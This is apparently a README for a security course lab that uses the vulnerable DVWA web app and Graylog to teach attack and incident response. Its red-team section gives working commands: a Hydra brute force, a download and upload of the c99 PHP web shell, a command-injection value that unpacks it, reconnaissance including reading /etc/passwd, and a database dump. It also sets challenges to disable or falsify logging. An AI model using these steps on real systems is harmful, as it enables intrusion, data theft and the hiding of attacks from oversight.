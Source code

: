 # Week 4 - AuditD and logging
This week we are using DVWA for our incident response demo again. DVWA provides a vulnerable webapp that is ready to be hacked out of the box. Graylog will act as our logging server.

## Presentation
AuditD and logging systems: https://docs.google.com/presentation/d/1HiLPQ6p8dZak0xOhoN66NFmos5l11Bwbkvl5hHuep7E/edit?usp=sharing

## Setup demo
### Init
0. Install docker and docker-compose

### Spin up demo
0. docker-compose up -d

### DVWA WebGUI setup
0. Browse to `http://dvwa.hackinglab.beer:8080` 
0. Login
    1. username: admin
    1. password: password
0. Select "DVWA security" on the left
0. Set the security level to "low"
0. Continue to red teaming section

### Graylog Webgui setup
0. Browse to `https://logging.hackinglab.beer` 
0. Login
    1. username: admin
    1. password: admin
0. Select "System" at the top then "Inputs"
0. Select "Beats" for input type and select "Launch new input"
    1. Select node
    1. Enter "Beats input" for title
    1. Select "save"

## Perform red teaming
### Nikto scanner
0. Spin up Kali Linux VM
0. Open terminal
0. `nikto -host dvwa.hackinglab.beer -port 8080`

### Hydra brute force
0. `hydra -l admin -P /usr/share/dirb/wordlists/small.txt dvwa.hackinglab.beer -s 8080 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V`

### Zip, upload and unzip c99.php
0. `wget https://raw.githubusercontent.com/tennc/webshell/master/php/PHPshell/c99/c99.php`
0. `gzip -f c99.php`
0. Browse http://dvwa.hackinglab.beer with CHROME and login
    1. User: admin
    1. Pass: password
0. Select "Upload" on the left
0. Select "Choose file", "c99.php.gz" then "Upload"
0. Select "Command injection" on the right
0. Enter `8.8.8.8; /bin/gunzip -v ../../hackable/uploads/c99.php` into "Enter ip address"
0. Browse to `http://dvwa.hackinglab.beer:8080/hackable/uploads/c99.php`

### Host situation awareness
0. Get current user: `whoami`
0. Get ip info: `ip a`
0. Get hostname: `hostname`
0. Get list of users: `cat /etc/passwd`
0. Get connection info: `ss -l -n -t`
0. Get process list: `ps aux`
0. Get known hosts: `arp -a`

### Dump database
0. `mysql -u root -e "show databases;"`
    1. There is no root password
0. `mysql -u root -e "use dvwa; show tables"`
0. `mysqldump -u root --database dvwa > dump.sql`
0. Use c99.php web shell to download dump

## Disable Graylog input
0. Browse to `https://logging.hackinglab.beer` 
0. Login
    1. username: admin
    1. password: admin
0. Select "System" at the top then "Inputs"
0. Select "Stop input" for "Beats" input

## Incident reponse demo
### Connecting to Graylog
Browse to `http://logging.hackinglab.beer` 
0. Login
    1. username: admin
    1. password: admin

### Understanding the machine
It is important to understand the machine you are investigating

0. What is the operating system(OS) of the attacked machine?
0. What is the kernel of the attacked machine?
0. What is the timezone of the attacked machine?
0. What is the IP address of the attacked machine?
0. What is the MAC address of the attacked machine?
0. What is the hostname of the attacked machine?
0. What network services are listening on the attcked machine? -- include ports
0. What users are on the attacked machine?

### Become the cyber detective
0. What are the version numbers of all the listening services?
0. Do the services have any known vulnerabilities? What sources/tools did you use?
0. Where are the web server logs located?
0. What is the diff between the error.log and access.log? What information do these logs provide?
0. What are the user permissions of the log files? Why does this matter?
0. What is the timezone and time format of the webservers logs? Why does this matter?
0. What is the hackers's IP address?
0. What is the hacker's user-agent?
0. What is the operating system(OS) of the hacker's machine?
0. What webshell did the attacker use? 
0. Where was that webshell uploaded to?
0. What commands/actions did the attacker use?

## IR challenge
0. Browse to `http://logging.hackinglab.beer` 
0. Login
    1. username: admin
    1. password: admin
0. Select "Dashboard" at the top
0. Select "Create Dashboard" 
    1. Enter a name
    1. Enter a description
    1. Select "Save"
0. Select your new dashboard
0. Create widgets to display:
    1. Histogram of log data
    1. Histogram of traffic
    1. Top 10 user-agents from web logs
    1. Top 10 operating systems from web logs
    1. Top 10 browsers from web logs
    1. Top 10 IP addresses from web logs
    1. Top 10 URL's visited from web logs
    1. Top 10 IP from SSH logs
    1. Widget of your choosing to display command injection


## Red team challenge
### Disable logging
0. Easy: Discover a way to disable the logging feature between DVWA and Graylog. 
0. Hard: Discover a way to modify the logging to hide your activities.
    1. The logging mechanism must still send logs

# Resources/Sources
* https://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson14/index.html
* http://docs.graylog.org/en/2.4/pages/installation/docker.html
* https://www.elastic.co/guide/en/elasticsearch/reference/current/docker.html
* https://hub.docker.com/r/graylog2/graylog/
